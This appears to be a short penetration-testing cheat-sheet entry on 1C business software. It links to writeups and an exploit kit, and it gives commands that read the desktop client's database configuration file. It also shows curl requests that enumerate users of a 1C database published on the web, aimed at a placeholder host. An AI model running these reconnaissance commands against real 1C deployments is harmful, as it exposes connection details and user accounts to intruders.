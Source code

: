# 1C

- [https://t.me/webpwn/280](https://t.me/webpwn/280)
- [https://habr.com/ru/post/352566/](https://habr.com/ru/post/352566/)
- [https://github.com/KraudSecurity/1C-Exploit-Kit](https://github.com/KraudSecurity/1C-Exploit-Kit)
- [https://www.rbsoft.ru/kb/upravlenie-spiskami-baz-1s/](https://www.rbsoft.ru/kb/upravlenie-spiskami-baz-1s/)

Desktop clients' DB config is stored in `C:\Users\<USERNAME>\AppData\Roaming\1C\1CEStart\ibases.v8i`:

```
Cmd > notepad.exe %APPDATA%\1C\1CEStart\ibases.v8i
PS > gc $env:APPDATA\1C\1CEStart\ibases.v8i -Encoding UTF8
```

List all users existing in a DB that is published as a web app:

```
$ curl -sSLk https://1c.megacorp.com/<DB_NAME>/en_US/e1cib/users
$ curl -sSLk https://1c.megacorp.com/<DB_NAME>/ru_RU/e1cib/users
```
